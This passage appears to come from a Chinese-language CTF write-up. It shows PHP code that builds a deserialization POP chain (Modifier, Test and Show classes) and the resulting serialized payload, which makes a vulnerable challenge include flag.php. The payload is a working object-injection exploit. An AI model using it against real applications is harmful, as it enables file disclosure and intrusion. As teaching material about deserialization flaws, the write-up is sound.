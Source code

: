     ![POP链构造 1](/hello_ctf/images/ser3.png) (类定义)
    *   **Payload 构造:** 按照链条反向构造对象：
        ```php
        <?php
        class Modifier { protected $var = 'flag.php'; }
        class Test { public $p; }
        class Show { public $source; public $str; }

        $modifier = new Modifier();
        $test = new Test(); $test->p = $modifier; 
        $show1 = new Show(); $show1->str = $test;
        // 注意 __wakeup 的 echo $this->source 触发链，所以外层 Show 的 source 属性需要是另一个 Show 实例
        $show2 = new Show(); $show2->source = $show1; // 外层 Show

        echo urlencode(serialize($show2));
        ?>
        ```
        生成的 Payload (部分)：`O:4:"Show":2:{s:6:"source";O:4:"Show":2:{s:6:"source";N;s:3:"str";O:4:"Test":1:{s:1:"p";O:8:"Modifier":1:{s:13:"%00*%00var";s:8:"flag.php";}}}s:3:"str";N;}` (注意 protected 属性格式)